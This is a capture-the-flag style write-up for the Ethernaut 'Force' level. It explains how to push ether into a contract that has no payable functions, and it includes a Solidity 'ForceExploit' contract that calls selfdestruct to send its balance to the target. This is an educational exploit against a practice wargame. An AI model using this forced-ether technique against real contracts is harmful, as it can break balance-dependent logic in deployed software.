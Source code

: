 ```yaml
---
description: >-
  In Ethernaut's Force, we are asked to send ether to a contract that has no
  apparent means of receiving it.
---
```


# 7 - Force

### Notes

Smart contracts, like EOA's, have their own addresses and balances.

The contract is empty and its ABI shows there are no public methods to call. Without a `fallback`, `receive`, or any `payable` functions, we cannot send ether to this address.

What we can do is deploy another contract that pays its balance to `Force` before self-destructing. The Force contract cannot send the transaction back as our exploit contract will cease to exist to receive the returned funds. We will ensure our exploit contract has a balance by marking its `constructor` payable.

### Scripted Solution

```solidity
pragma solidity ^0.8.0;

contract ForceExploit {
    constructor() payable {}

    /**
     * @dev Send balance to `contractAddress` before self destructing.
     */
    function payContractAndSelfDestruct(address payable contractAddress) public {
        selfdestruct(contractAddress);
    }
}
```
